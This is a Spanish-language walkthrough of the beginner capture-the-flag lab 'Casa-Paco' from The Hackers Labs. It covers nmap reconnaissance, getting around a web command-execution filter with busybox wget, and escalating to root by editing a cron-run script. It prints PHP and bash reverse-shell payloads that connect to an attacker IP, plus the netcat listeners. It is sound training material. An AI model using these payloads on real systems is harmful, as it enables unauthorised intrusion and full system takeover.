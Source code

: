 Máquina **Casa-Paco** de [The Hackers Labs](https://thehackerslabs.com)

Autor: Condorhacks & Curiosidadesdehackers

Dificultad: Principiante

IP: 192.168.45.168 (en mi caso)

![Casa paco](images/casapaco/casapaco.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -p- -sSVC --open --min-rate 5000 -Pn -n -vvv -oN escaneo.txt 192.168.45.168
```

```css
# Nmap 7.95 scan initiated Tue Jan 14 18:20:21 2025 as: nmap -p- -sSVC --open --min-rate 5000 -Pn -n -vvv -oN escaneo.txt 192.168.45.168
Nmap scan report for 192.168.45.168
Host is up, received arp-response (0.0023s latency).
Scanned at 2025-01-14 18:20:22 -03 for 13s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 72:58:87:c5:87:63:3f:fa:43:da:ed:69:2f:ed:a7:d0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDeEPbzWvfbdVsbmQKgz5ST3C5xmvjfb4i4d59wj4cO2mnMZW9jciFeto0YjsabjZcqwslleYKgrCinkVK7TdFA=
|   256 13:31:bc:26:a0:2e:4a:ae:b8:31:75:7f:0e:17:32:4e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICroiKE+wS8F7kGGigBnhAMdgLUi1FftnzIIP1qHGTZF
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Did not follow redirect to http://casapaco.thl
MAC Address: 08:00:27:AC:06:C7 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 14 18:20:35 2025 -- 1 IP address (1 host up) scanned in 14.42 seconds
```

Vemos 2 puertos abiertos:

•`Puerto 22: OpenSSH 9.2p1 Debian`

•`Puerto 80: Apache httpd 2.4.62`

además podemos ver en el escaneo un dominio: casapaco.thl

el cual añadiremos al `/etc/hosts`

#### # Puerto 80

Si revisamos la página no veremos nada, pero al ir a donde dice menu y luego en "para llevar", veremos la siguiente página donde podremos ejecutar comandos:

![Commands](images/casapaco/llevar.png)

si probamos un poco, veremos que hay caracteres y comandos bloqueados:

Comandos:

• `ls`

• `whoami`

• `cat`

Caracteres:

• /

• =

• '

• "

• +

• &

• ;

También vemos que no tenemos ni `wget` ni `curl`, pero tenemos `busybox`, por lo que realmente si tenemos `wget`.

# Intrusión

Crearemos un archivo llamado "index.html" el cual contenga esto:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/<IP>/443 0>&1'");
?>
```

luego pondremos un servidor http con python:

```css
sudo python3 -m http.server 80
```

y en la página ejecutaremos lo siguiente:

```css
busybox wget <IP> -O index.php
```

finalmente escuchamos con netcat por el puerto 443:

```css
sudo nc -nlvp 443
```

y entramos a la página.

# Escalada De Privilegios

### www-data

Al revisar el directorio `/home/`, veremos la carpeta de un solo usuario la cual podremos leer. En la carpeta del usuario veremos un script en bash el cual podemos editar y contiene esto:

```bash
#!/bin/bash

# Generar un log de actividad
echo "Ejecutado por cron el: $(date)" >> /home/pacogerente/log.txt
```

también veremos que en el mismo directorio se crea un "log.txt" el cual contiene lo mismo que pone ahi y al parecer hay una tarea cron ejecutando el script cada 1 minuto. Ahora modificaremos el archivo de la siguiente manera para poder escalar a root:

```bash
#!/bin/bash

# Enviar reverse shell
echo "Enviando reverse shell" >> /home/pacogerente/log.txt
bash -c 'bash -i >& /dev/tcp/<IP>/9090 0>&1'
```

una vez lo tengamos, escuchamos con netcat por el puerto 9090:

```css
nc -nlvp 9090
```

y al esperar un poco tendremos una shell como root.

### Root

![Root](images/casapaco/root.png)

Gracias por leer ;)